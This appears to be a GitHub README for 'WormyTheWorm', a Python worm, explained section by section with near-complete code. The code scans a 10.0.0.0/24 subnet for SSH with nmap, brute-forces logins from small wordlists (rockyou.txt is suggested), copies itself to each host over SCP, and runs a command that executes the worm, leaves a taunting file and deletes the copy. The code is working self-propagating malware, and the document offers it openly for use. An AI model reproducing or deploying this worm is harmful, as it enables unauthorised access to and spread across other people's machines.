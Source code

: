 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. 

## Table of Contents
- Dependents
- NMap 
- Brute Force 
- SSH & Paramiko
- Try Except - SSH & SCP via Paramiko
___
## Dependents 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```
The above must be installed on the local machine for the program to run successfully. Use the below code to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
pip install python-nmap
```
**Paramiko:**
```sh
pip install paramiko
```
**SCP:**
```sh
pip install git+https://github.com/jbardin/scp.py
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH & Paramiko

Paramiko is Python implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed.
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm is deleted
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except - SSH & SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previusly defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Sucess :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```
